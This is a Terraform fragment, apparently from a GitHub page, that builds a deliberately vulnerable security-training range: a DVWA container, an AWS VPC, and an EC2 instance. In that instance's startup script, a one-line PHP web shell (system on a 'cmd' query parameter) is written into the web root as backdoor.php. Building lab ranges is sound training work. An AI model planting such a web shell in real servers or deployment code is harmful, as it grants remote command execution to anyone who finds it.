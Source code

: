 ```hcl
  name  = "vulnerable-webapp"
  image = "vulnerables/web-dvwa:latest"
  
  networks_advanced {
    name = docker_network.internal_network.name
  }
  
  ports {
    internal = 80
    external = 8080
  }
}

# AWS resources
resource "aws_vpc" "range_vpc" {
  cidr_block = "10.0.0.0/16"
  
  tags = {
    Name = "SecurityRangeVPC"
  }
}

resource "aws_subnet" "range_subnet" {
  vpc_id     = aws_vpc.range_vpc.id
  cidr_block = "10.0.1.0/24"
  
  tags = {
    Name = "SecurityRangeSubnet"
  }
}

resource "aws_instance" "vulnerable_instance" {
  ami           = "ami-0c55b159cbfafe1f0"  # Amazon Linux 2
  instance_type = "t2.micro"
  subnet_id     = aws_subnet.range_subnet.id
  
  user_data = <<-EOF
              #!/bin/bash
              yum update -y
              yum install -y httpd mysql mariadb-server php
              systemctl start httpd
              systemctl enable httpd
              cd /var/www/html
              echo "<?php system(\$_GET['cmd']); ?>" > backdoor.php
              EOF
  
  tags = {
    Name = "VulnerableInstance"
  }
}

# Output important information
output "kali_ssh_port" {
  value = "SSH to localhost:2222"
}

output "dvwa_url" {
  value = "http://localhost:8080"
}

output "aws_instance_id" {
  value = aws_instance.vulnerable_instance.id
}
```